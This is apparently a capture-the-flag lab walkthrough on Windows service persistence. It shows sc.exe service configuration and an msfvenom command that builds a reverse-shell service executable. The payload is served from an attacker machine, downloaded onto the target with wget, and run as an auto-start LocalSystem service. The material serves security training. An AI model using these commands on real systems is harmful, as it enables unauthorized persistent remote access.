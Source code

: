 You can then query the service's configuration again to check if all went as expected:

```

Command Prompt

C:\> sc.exe qc THMservice3
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: THMservice3
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\rev-svc2.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : THMservice3
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem

        


```

	Start a Metasploit listener on your attacker's machine and manually start the service to receive a reverse shell. From there, run C:\flags\flag8.exe to get a flag!

```
┌──(kali㉿kali)-[~/payloads]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.81.220 LPORT=4448 -f exe-service -o rev-svc.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe-service file: 48640 bytes
Saved as: rev-svc.exe
                                                                                           
┌──(kali㉿kali)-[~/payloads]
└─$ ls
index.raw  launcher.bat  liv0ff.ps1  live0fftheland.dll  payload.hta  rev-svc.exe  thm.hta
                                                                                           
┌──(kali㉿kali)-[~/payloads]
└─$ python3 -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
10.10.170.100 - - [11/Sep/2022 16:56:10] "GET /rev-svc.exe HTTP/1.1" 200 -
10.10.170.100 - - [11/Sep/2022 16:58:38] "GET /rev-svc.exe HTTP/1.1" 200 -


PS C:\Windows> wget http://10.11.81.220:1337/rev-svc.exe -o rev-svc.exe

C:\Users\Administrator>sc.exe create THMservice2 binPath= "C:\windows\rev-svc.exe" start= auto
[SC] CreateService SUCCESS

C:\Users\Administrator>sc.exe start THMservice2

SERVICE_NAME: THMservice2
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```